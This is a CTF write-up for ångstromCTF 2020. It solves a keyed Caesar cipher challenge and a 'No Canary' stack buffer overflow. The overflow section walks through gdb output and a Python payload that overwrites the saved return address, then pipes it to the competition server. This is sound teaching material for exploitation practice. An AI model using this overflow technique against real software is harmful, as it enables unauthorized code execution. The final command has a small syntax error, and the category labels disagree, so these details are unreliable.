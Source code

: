 # ångstromCTF 2020
![ångstromCTF 2020](https://github.com/Abd-Elrahman-Nasr/ctf-writeups/blob/master/%C3%A5ngstromCTF%202020/angstromCTF2020.png)

ångstromCTF 2020 was a really great competition and we as **P1rates** team enjoyed it and learned a lot, Here's my writeup about what i solved.

## Challenges

| Title                              | Category                        | Score |
| ---------------------------------- |:-------------------------------:| -----:|
|    [Keysar](#Keysar)               |   Crypto                        | 40    |
|    [No Canary](#no-canary)         |   Binary Exploitation           | 50    |
|    [Revving Up](#revving-up)       |   Reversing                     | 50    |
|    [Inputter](#inputter)           |   Misc                          | 100   |
|    [msd](#msd)                     |   Misc                          | 140   |

<hr />

## Keysar
#### Binary Exploitation (40 points)


### Description:
> **Hey! My friend sent me a message... He said encrypted it with the key ANGSTROMCTF.<br>
> He mumbled what cipher he used, but I think I have a clue.<br>
> Gotta go though, I have history homework!!<br>
> agqr{yue_stdcgciup_padas}**

> *Hint: Keyed caesar, does that even exist??*

### solution:

Well, as it's obvious from the title it has something to do with "Ceaser Cipher" and as the hint says "Keyed Ceaser" so i used this [site](http://rumkin.com/tools/cipher/caesar-keyed.php) to decrypt the flag given the key provided and BOOM! we got the flag!

<sub> Flag: ``` actf{yum_delicious_salad} ``` </sub>
---

## No Canary


### Description:
> **Agriculture is the most healthful, most useful and most noble employment of man.<br>
> —George Washington<br><br>
> Can you call the flag function in this [program](https://github.com/Abd-Elrahman-Nasr/ctf-writeups/blob/master/%C3%A5ngstromCTF%202020/No%20Canary/no_canary) ([source](https://github.com/Abd-Elrahman-Nasr/ctf-writeups/blob/master/%C3%A5ngstromCTF%202020/No%20Canary/no_canary.c))? Try it out on the shell server at /problems/2020/no_canary or by connecting with nc shell.actf.co 20700.**

> *Hint: What's dangerous about the gets function?*

### solution:

The answer for the hint is simple .. It's "overflow"! .. gets function doesn't restrict the user input length and hence we can make an overflow given the address of flag() function to read the flag.txt!

So to get the address of flag() function we will use gdb
```
$ gdb no_canary
(gdb) set disassembly-flavor intel
(gdb) info func
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  setresgid@plt
0x0000000000401050  system@plt
0x0000000000401060  printf@plt
0x0000000000401070  gets@plt
0x0000000000401080  getegid@plt
0x0000000000401090  setvbuf@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  flag
0x0000000000401199  main
0x00000000004012e0  __libc_csu_init
0x0000000000401350  __libc_csu_fini
0x0000000000401358  _fini
```

Nice! we got the address **0x00401186** .. Now we know that name variable is of size 20 so we need a payload > 20 to reach to rip register and put the address of flag() function in there.

We need to see the main function:
```
(gdb) disas main
   .
   .
   0x00000000004012ba <+289>:	call   0x401070 <gets@plt>
   0x00000000004012bf <+294>:	lea    rax,[rbp-0x20]
   .
   .
```
And then setting a breakpoint at **0x004012bf** right after call gets() function instruction:
```
(gdb) b *0x004012bf
```
We'll run the program using a payload of 20 "A"s letter:
```
(gdb) r <<< $(python -c "print 'A' * 20")
```
Now we hit the breakpoint, We also need to know the saved rip register value so we can detect it on the stack and optimize our payload to target it:
```
(gdb) info frame
Stack level 0, frame at 0x7fffffffe590:
 rip = 0x4012bf in main; saved rip = 0x7ffff7a5a2e1
.
.
```
So our target is **0x7ffff7a5a2e1** .. Now by examining the stack:
```
(gdb) x/100x $rsp
0x7fffffffe560:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe570:	0x41414141	0x00007f00	0x00000000	0x00002af8
0x7fffffffe580:	.0x004012e0	0x00000000	0xf7a5a2e1	0x00007fff
.
.
```
It's so clear that **0xf7a5a2e1	0x00007fff** is the saved rip register in little-endian and if we can replace it with the flag() function address which is **0x0000000000401186** we can change the flow of the program to print the flag!

so our final payload will be:
```
(gdb) r <<< $(python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00'")
```
That was locally, and by applying it to **nc shell.actf.co 20700** it should give us the flag:
```
$ python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00' | nc shell.actf.co 20700
```

<sub> Flag: ``` actf{that_gosh_darn_canary_got_me_pwned!} ``` </sub>
